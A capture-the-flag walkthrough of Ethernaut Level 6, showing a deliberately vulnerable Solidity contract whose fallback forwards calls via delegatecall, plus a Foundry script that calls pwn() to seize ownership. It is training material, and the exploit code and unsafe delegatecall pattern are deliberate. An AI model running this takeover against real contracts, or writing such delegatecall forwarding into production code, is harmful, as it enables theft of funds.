 # Level 6 - Delegation ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/6" %}

### Level Setup

{% hint style="info" %}
The goal of this level is for you to claim ownership of the instance you are given.

&#x20; Things that might help

* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
* Fallback methods
* Method ids
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/Delegation.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```
{% endcode %}

### Exploit

The contract forwards any unmatched function calls through to the `Delegate` contract through the `fallback()` function. As `pwn()` is only on the `Delegate` contract, it's a simple as calling `pwn()` and having it execute the function on the `Delegate` instead of the `Delegation` contract.

1. Call `pwn()`.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-6

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level6.s.sol" %}

{% code title="script/Level6.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

interface IDelegate {
    function pwn() external;
}

// ================================================================
// │                        LEVEL 6 - DELEGATION                  │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IDelegate targetContract = IDelegate(targetContractAddress);

        vm.startBroadcast();
        targetContract.pwn();
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.
{% endhint %}

### Notes

* [delegatecall](https://eip2535diamonds.substack.com/p/understanding-delegatecall-and-how) in Solidity
